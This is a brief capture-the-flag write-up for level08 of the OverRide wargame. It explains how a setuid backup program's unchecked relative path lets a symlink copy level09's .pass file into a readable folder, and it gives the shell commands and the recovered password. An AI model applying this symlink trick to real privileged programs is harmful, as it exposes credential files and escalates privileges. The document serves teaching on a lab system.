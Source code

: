 # Relative folder path without check :)

see source.c

## Analysis

So we take a look at the source and noticed the program create a logfile with the same names as the file. So it could read level09 .pass and write it into a file :)

So we just create a symbolic link to level09/backups and just using a relative path that correspond to the file:

`../level09/.pass` get the pass but on with the new file on backups it will do something like:
`./backups/../level09/.pass`. So a symlink can do the tricks :)

## Exploit

```
level08@OverRide:~$ chmod 777 .
level08@OverRide:~$ ln -s backups/ level09
level08@OverRide:~$ ./level08 ../level09/.pass
level08@OverRide:~$ cat backups/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```

```
chmod 777 . && ln -s backups/ level09 && ./level08 ../level09/.pass && cat backups/.pass
```
